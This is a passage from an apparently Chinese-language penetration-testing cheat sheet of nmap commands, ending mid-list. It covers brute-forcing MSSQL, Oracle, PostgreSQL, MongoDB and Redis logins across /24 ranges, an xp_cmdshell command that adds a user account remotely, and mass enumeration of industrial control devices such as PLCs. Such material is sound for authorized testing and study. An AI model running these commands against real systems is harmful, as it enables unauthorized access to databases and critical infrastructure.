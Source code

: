 - mssql
    - 信息收集 : `nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <target ip>`
    - 扫描 sa 空密码 : `nmap -p 1433 --script ms-sql-empty-password.nse -v <target ip>/24`
    - sa 弱口令爆破 : `nmap -p 1433 --script ms-sql-brute.nse -v <target ip>/24`
    - 利用 xp_cmdshell,远程执行系统命令 : `nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add <target ip>/24`

- postgresql
    - 爆破 : `nmap -p 5432 --script pgsql-brute -v <target ip>/24`

- oracle
    - 信息收集 : `nmap --script oracle-tns-version -p 1521 <target ip>`
    - 爆破 : `nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v <target ip>/24`
    - 爆破 : `nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v <target ip>/24`

- mongdb
    - 爆破 : `nmap -p 27017  --script mongodb-brute <target ip>/24`

- redis
    - 爆破 : `nmap -p 6379 --script redis-brute.nse <target ip>/24`

---

### 工控探测

- S7
    - 探测 : `nmap -p 102 --script s7-info.nse <target ip>`

- modbus
    - 探测 : `nmap -sV -p 502 --script modbus-discover <target ip>`

- EthernetIP
    - 探测 : `nmap -p 44818 --script enip-info.nse <target ip>`

- NiagaraFox
    - 探测 : `nmap -p 1911 --script fox-info <target ip>`

该项目提供大量探测脚本 [digitalbond/Redpoint](https://github.com/digitalbond/Redpoint)
- 识别和枚举 BACnet 设备 : `nmap --script BACnet-discover-enumerate.nse -sU  -p 47808 <target ip>`
- 探测 CoDeSyS V2 控制器 : `nmap -p 1200,2455 --script codesys-v2-discover <target ip>`
- 探测 EthernetIP 设备 : `nmap -p 44818 --script enip-enumerate.nse <target ip>`
- 识别并枚举施耐德电气 Modicon PLC : `nmap --script modicon-info -p 502 <target ip>`
- 识别并枚举 Omron PLC
    - `nmap --script ormontcp-info -p 9600 <target ip>`
    - `nmap --script ormonudp-info -sU -p 9600 <target ip>`
- 识别并枚举启用 PC Worx 协议的 PLC : `nmap --script pcworx-info -p 1962 <target ip>`
- 识别并枚举支持 ProConOS 的 PLC : `nmap --script proconos-info -p 20547 <target ip>`
- 探测 S7 : `nmap -p 102 --script s7-enumerate.nse <target ip>`

该项目提供工控常见协议识别脚本 [digitalbond/Redpoint](https://github.com/digitalbond/Redpoint)
- Siemens S7 : `nmap -sS -Pn -n --min-hostgroup 1024 --min-parallelism 1024 -p 102 --script s7-info -iL 123.txt -oX 123.xml`
- Modbus : `nmap -sS -Pn -p 502 --script modicon-info -iL 123.txt -oX 123.xml`
- IEC 60870-5-104
    - `nmap -Pn -n -d --script iec-identify.nse  --script-args='iec-identify.timeout=500' -p 2404 <host>`
    - `nmap -Pn -n --min-hostgroup 1024 --min-parallelism 3000 -d --script iec-identify-2014.nse  --script-args='iec-identify.timeout=500' -p 2404 -iL 2404.txt -oX 2404.xml`
- DNP3
    - `nmap --script dnp3-info -p 20000 <host>`
    - `nmap -Pn -n --min-hostgroup 1024 --min-parallelism 3000 --script dnp3-info.nse -p 20000 -iL 20000.txt -oX 20000.xml`
- EtherNet/IP
    - `nmap --script enip-info -sU  -p 44818 <host>`
    - `nmap -Pn -n -sU --min-hostgroup 1024 --min-parallelism 3000 --script enip-info.nse -p 44818 -iL 44818.txt -oX 44818.xml`
- BACnet